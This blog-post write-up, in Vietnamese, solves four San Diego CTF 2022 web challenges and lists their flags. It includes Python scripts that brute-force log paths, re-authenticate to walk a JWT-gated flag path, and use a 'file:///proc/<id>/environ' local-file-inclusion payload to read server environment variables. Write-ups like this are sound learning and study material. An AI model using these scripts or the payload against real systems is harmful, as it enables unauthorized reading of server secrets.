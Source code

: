 ```yaml
---
title: San Diego CTF 2022
description: From San Diego CTF
author: to^
date: 2022-05-09 22:07:00 +0700
categories: [WebSec, CTF]
tags: [LFI]     # TAG names should always be lowercase
img_path: /assets/img/sandiegoctf2022
image:
 src: logo.png
 alt: san diego logo
 width: 1000
 height: 400
---
```


Sollution của 4 bài web.

## Apollo 1337

Bài này chỉ để làm quen với các tool nên coi hết video của họ là solve được

> **sdctf{0ne_GiANT_L3AP_4_tH3_NeXT_gENERa7i0n}**
{: .prompt-info  }

## Lots of Logs

Hướng đi của bài này là bruteforce các log file theo dạng `https://logs.sdc.tf/logs/<year>/<month>/<date>/<weekday>.log`

script exploit:

```py
from datetime import datetime
import requests

TARGET = "https://logs.sdc.tf/logs/"

found = False
for year in range (2018, 2019):
    for month in range (1,12):
        for date in range (1,31):
            try: 
                current = datetime(year,month, date).strftime("%A")[0:3]
                r = requests.get(TARGET + f"{year}/{month}/{date}/{current}.log")
                if "sdc" in r.text: 
                    print("[-] Found with url: " + TARGET + f"{year}/{month}/{date}/{current}.log")
                    quit()
            except:
                pass
```

> **sdctf{b3tr4y3d_by_th3_l0gs_8a4dfd}**
{: .prompt-info  }

## JaWT that down!

Bài này khó ở chỗ jwt chỉ có giá trị trong một khoảng thời gian ngắn (trường exp) nên cách giải quyết sẽ là re-login sau mỗi request. Mỗi response trả về tương ứng sẽ tướng ứng với từng kí tự tiếp theo của flag.

script exploit:

```py
import requests

s = requests.Session()
TARGET = "https://jawt.sdc.tf/"

cre = {"username": "AzureDiamond", "password": "hunter2"}


url = TARGET + "s"
flag = "s"       

while True:
    s = requests.Session()
    r = s.post(TARGET + 'login', data=cre)
    r = s.get(url)
    if r.status_code != 200:
        break   
    url += '/' + r.text   
 
    flag += r.text
    print(flag)


print(f"[-]Flag: {flag}")
```

> **sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}**
{: .prompt-info  }

## CURL Up and Read

Server cho một ô để nhập url, sau đó hiển thị response nhận được từ url này cho user. Hướng đi của bài là khai thác lỗi `LFI` bằng payload: `file:///proc/<id>/environ`. Ở đây `curl` command sẽ chạy trong process con do hàm `execFileSync` nên việc ta cần làm là bruteforce process id của process cha và grep flag.

```py
from base64 import b64encode
import requests

TARGET = "https://curl.sdc.tf"

for i in range (1000):
    print(f"[-] Trying {i}")
    data = '{"url": "file:///proc/ID/environ"}'.replace('ID', i)
    data_base64 = b64encode(data.encode()).decode()
    r = requests.get(TARGET + "/read/" + data_base64)
    if "Internal Server Error" not in r.text:
        if "sdctf" in r.text:
            print("[-] Found: " + TARGET + "/read/" + data_base64)
            break
```

> **sdctf{CURL_up_aNd_L0c@L_F1le_incLuSi0N}**
{: .prompt-info  }
